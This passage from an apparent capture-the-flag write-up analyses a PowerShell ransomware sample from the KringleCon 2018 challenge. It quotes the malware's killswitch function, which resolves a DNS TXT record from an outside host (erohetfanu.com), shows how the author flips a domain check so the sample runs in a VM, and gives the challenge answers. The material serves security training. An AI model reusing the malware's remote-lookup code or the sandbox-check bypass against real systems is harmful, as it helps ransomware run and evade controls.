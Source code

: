 In order to make the malware work in our VM, I modified the domain check to work if our domain is not `KRINGLECASTLE` by changing `-ne` to `-eq` in the second if condition:

* From: `(Get-WmiObject Win32_ComputerSystem).Domain -ne "KRINGLECASTLE")`
* To: `(Get-WmiObject Win32_ComputerSystem).Domain -eq "KRINGLECASTLE")`

``` powershell
if ($(netstat -ano | Select-String "127.0.0.1:8080").Length -ne 0 -or (Get-WmiObject Win32_ComputerSystem).Domain -eq "KRINGLECASTLE") {
    return
}
```

## 9.3 Stop the Malware
**The answer is `yippeekiyaa.aaay`.**

We are looking for a killswitch [similar to WannaCry(https://www.wired.com/2017/05/accidental-kill-switch-slowed-fridays-massive-ransomware-attack/)]. The WannaCry checked for a non-registered domain and if it got a response from that domain, it would not activate. In the malware source code we can check termination by looking for `return` instructions.

The following `return` check looks familiar:

``` powershell
function wanc {
    $S1 = "1f8b080000000000040093e76762129765e2e1e6640f6361e7e202000cdd5c5c10000000"
    if ($null -ne ((Resolve-DnsName -Name $(HexToASCII $(ByteToHex $(XOR $(ByteToHex $(GzipToBytes $(HexToByte $S1))) $(Resolve-DnsName -Server erohetfanu.com -Name 6B696C6C737769746368.erohetfanu.com -Type TXT).Strings))).ToString() -ErrorAction 0 -Server 8.8.8.8))) {
        return 
    }
```

Is this the killswitch? Yes, it is.

We can print the result by modifying the original script:

``` powershell
function wanc {
    $S1 = "1f8b080000000000040093e76762129765e2e1e6640f6361e7e202000cdd5c5c10000000"

    $(HexToASCII $(ByteToHex $(XOR $(ByteToHex $(GzipToBytes $(HexToByte $S1))) $(Resolve-DnsName -Server erohetfanu.com -Name 6B696C6C737769746368.erohetfanu.com -Type TXT).Strings))) | Out-String
    return
    ...
```

And we have the killswitch: `yippeekiyaa.aaay`.

----------

## 9.4 Recover Alabaster's Password
**The answer is `ED#ED#EED#EF#G#F#G#ABA#BA#B`.**

In this part, we have a memory dump and a file and we need to recover the key. See the talk [KringleCon 2018 - Chris Davis, Analyzing PowerShell Malware](https://www.youtube.com/watch?v=wd12XRq2DNk).

